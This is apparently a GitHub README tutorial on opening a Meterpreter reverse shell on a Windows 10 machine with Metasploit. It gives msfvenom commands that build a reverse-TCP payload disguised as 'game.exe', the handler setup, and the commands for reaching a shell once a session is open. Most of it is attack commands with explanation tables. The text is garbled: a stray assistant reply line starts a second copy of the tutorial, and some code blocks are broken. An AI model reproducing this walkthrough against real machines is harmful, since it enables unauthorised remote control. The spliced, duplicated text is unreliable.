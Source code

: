 # Gaining Access of a Windows System using Metasploit

## Disclaimer
This tutorial is intended for educational purposes only. Unauthorized penetration testing, hacking, or any other form of malicious activity is strictly prohibited and illegal. Ensure that you have explicit permission before attempting any security-related actions on computer systems or networks. The authors and publishers of this tutorial are not responsible for any misuse or consequences resulting from the information provided herein.

## Overview
In this tutorial, we'll explore the ethical hacking aspect of bypassing the Windows Firewall using Metasploit. The demonstration involves creating a remote session on a Windows system for educational purposes only.

### Prerequisites
- Kali Linux installed
- Basic knowledge of Metasploit
- Windows 10 system for testing

### Setup
---
1. Turn on Windows Firewall
Verify that the Windows Firewall is enabled on the target system.

```ps1
# Check Windows Firewall status
Get-NetFirewallProfile

# Turn on the firewall for public networks
Set-NetFirewallProfile -Profile Public -Enabled True
```



| Command                                  | Explanation                                             |
|------------------------------------------|---------------------------------------------------------|
| `Get-NetFirewallProfile`                 | Retrieves the current status of the firewall profiles.  |
| `Set-NetFirewallProfile -Profile Public -Enabled True` | Enables the firewall for public networks. Replace `True` with `False` to disable the firewall. |

2. Generate payload using `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= <ipaddress> LPORT=<port> -f exe -o <filename(.exe)>
```
Certainly! Here's the full markdown version:

```markdown
# Ethical Hacking Tutorial: Bypassing Windows Firewall with Metasploit

## Disclaimer
This tutorial is intended for educational purposes only. Unauthorized penetration testing, hacking, or any other form of malicious activity is strictly prohibited and illegal. Ensure that you have explicit permission before attempting any security-related actions on computer systems or networks. The authors and publishers of this tutorial are not responsible for any misuse or consequences resulting from the information provided herein.

## Overview
In this tutorial, we'll explore the ethical hacking aspect of bypassing the Windows Firewall using Metasploit. The demonstration involves creating a remote session on a Windows system for educational purposes only.

### Prerequisites
- Kali Linux installed
- Basic knowledge of Metasploit
- Windows 10 system for testing

## Steps

### 1. Turn on Windows Firewall
Verify that the Windows Firewall is enabled on the target system.
```bash
# Check Windows Firewall status
firewall
# Turn on the firewall for public networks
```

### 2. Start a Meterpreter Session
On Kali Linux, open a terminal and use `msfvenom` to generate a payload.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST 10.10.10.197 LPORT 4444 -f exe -o game.exe
```
Start Metasploit:
```bash
service postgresql start
msfconsole
```
Inside Metasploit:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.197
set LPORT 4444
exploit -j -z
```

### 3. Install the Payload on Windows 10 System
On the Windows 10 system, copy the generated `game.exe` to a desired location (e.g., "share") and execute it.

### 4. Confirm the Session
Back on Kali Linux, confirm that the Meterpreter session is active:
```bash
# Inside Metasploit
sessions
```
Verify the connection details and gain command-line access to the Windows system.

## Summary
This tutorial demonstrated how to ethically bypass the Windows Firewall using Metasploit to create a remote session. Remember to use these techniques responsibly and only in environments where you have explicit permission for security testing.

**Note:** Always respect ethical guidelines and legal boundaries. Unauthorized access to computer systems is illegal and unethical. This tutorial is meant for educational purposes to enhance understanding of security measures and vulnerabilities.


| Option                         | Explanation                                               |
|--------------------------------|-----------------------------------------------------------|
| `-p windows/meterpreter/reverse_tcp` | Specifies the payload as a reverse TCP Meterpreter session for Windows. |
| `LHOST=10.10.10.197`            | Sets the local host IP to receive the back connection. Replace with your Kali Linux machine's IP. |
| `LPORT=4444`                   | Sets the local port for the connection.                    |
| `-f exe`                       | Specifies the output file type as an executable (.exe).   |
| `-o game.exe`                  | Specifies the output file name.                            |

### Metasploit Commands
```bash
service postgresql start
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.197
set LPORT 4444
exploit -j -z
```

| Command                                    | Explanation                                             |
|--------------------------------------------|---------------------------------------------------------|
| `service postgresql start`                  | Starts the PostgreSQL service required by Metasploit for database functionalities. |
| `msfconsole`                               | Launches the Metasploit console.                         |
| `use exploit/multi/handler`                | Chooses the multi-handler module in Metasploit for handling multiple exploits. |
| `set payload windows/meterpreter/reverse_tcp` | Sets the payload to be used as a Windows reverse TCP Meterpreter session. |
| `set LHOST 10.10.10.197`                   | Sets the local host IP to your Kali Linux machine's IP. |
| `set LPORT 4444`                           | Sets the local port for the connection.                  |
| `exploit -j -z`                            | Initiates the exploit. `-j` runs it in the context of a job, and `-z` avoids interaction with the session once active. |

### Additional Metasploit Commands
```bash
sessions
sessions -i <session_number>
sysinfo
shell
```

| Command                                  | Explanation                                             |
|------------------------------------------|---------------------------------------------------------|
| `sessions`                               | Displays a list of active sessions.                      |
| `sessions -i <session_number>`           | Interacts with a specific session.                      |
| `sysinfo`                                | Displays system information for the target machine.      |
| `shell`                                  | Opens a command shell on the target machine.             |

Feel free to explore these commands responsibly in a controlled and ethical environment. Always ensure you have proper authorization before performing any security testing.